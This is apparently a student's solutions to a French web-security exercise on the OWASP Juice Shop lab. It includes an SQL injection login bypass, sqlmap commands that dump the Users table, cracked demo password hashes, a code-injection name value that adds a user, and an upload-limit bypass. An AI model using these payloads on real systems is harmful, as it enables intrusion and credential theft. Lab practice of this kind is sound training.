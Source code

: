 Exercise 2
==========

### 1.

> Essayez le challenge “Login Admin”; vous pouvez suivre le tutorial intégré en cliquant sur le bouton dans le scoreboard.

Login with `' OR 1=1; --` as username.

### 2.

> Nous allons utiliser sqlmap pour voler le contenu de la base de données du site. sqlmap est un outil qui peut automatiser l’exploitation d’une injection SQL même dans des scénarios difficiles (side-channel basée sur le temps, etc…) 
> a. Quelle est l’utilité des paramètres --level et --risk ?
> b. Trouvez une URL GET avec un paramètre exploitable
> c. Trouvez le nom de la table et de ses colonnes contenant l’email et le hash des utilisateurs
> d. Récupérez le contenu de ces deux colonnes
> e. Tentez de cracker ces hashes
> f. Quel est le nom de la vulnérabilitée exploitée ici ? Quel type de requête SQL est utilisée pour accéder aux tables ?
> g. Comment corrigeriez-vous la vulnérabilité 

#### 2.a.

Allows to toggle more dangerous checks that might be easily detected by potential countermeasures.

#### 2.b.

Product search endpoint on the server side, using http://localhost:3000/rest/products/search?q=

#### 2.c.

`sqlmap 'http://localhost:3000/rest/products/search?q=""' --level=3 --risk=3 --schema`

-> Users

#### 2.d.

`sqlmap 'http://localhost:3000/rest/products/search?q=""' --dump -T Users`

#### 2.e.

J12934@juice-sh.op      0192023a7bbd73250516f069df18b500 (admin123)
accountant@juice-sh.op  e541ca7ecf72b8d1286474fc613e5e45 (ncc-1701)
morty@juice-sh.op       fe01ce2a7fbac8fafaed7c982a04e229 (demo)
wurstbrot@juice-sh.op   2c17c6393771ee3048ae34d6b380c5ec (private)

#### 2.f.

SQL injection with 'boolean-based blind' payloads.

#### 2.g.

Named parameters in queries.

### 3.

> Faites le challenge “View Basket”.
> a. Quel est le nom de la vulnérabilité ?
> b. Sous quel CWE la classe-t-on ?

Unauthorized access to another user's data.

CWE-284: Improper Access Control

### 4.

Give the following name, and add more inputs :

`name"); process=null; users.addUser("yikes", "`

### 5.

Generate a file of 99.9 kb and intercept with burp, then add 100 or so bytes and change the filename.

